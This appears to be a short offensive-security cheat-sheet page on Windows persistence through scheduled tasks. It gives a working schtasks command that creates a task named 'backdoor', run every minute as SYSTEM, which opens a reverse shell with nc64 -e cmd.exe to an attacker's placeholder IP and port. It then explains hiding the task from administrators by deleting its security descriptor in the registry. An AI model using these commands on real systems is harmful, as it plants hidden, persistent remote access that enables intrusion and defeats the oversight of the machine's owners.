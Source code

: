 [[reg#schtasks]]
### Scheduling tasks
- Create a task that runs every minutes and runs a reverse shell
```powershell
# Create a task
schtasks /create /sc minute /mo 1 /tn backdoor /tr "c:\tools\nc64 -e cmd.exe <IP> <PORT>" /ru SYSTEM

# Check the task
schtasks /query /tn backdoor
```

### Hiding the task
- We can delete the security descriptor (SD) of the task so that no user, not even administrator can query this task.
- SD is an ACL that defines which users have access to the tasks.
- SD of tasks are stored at `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\backdoor` under a key named `SD`.
- Changing the value is only allowed by SYSTEM.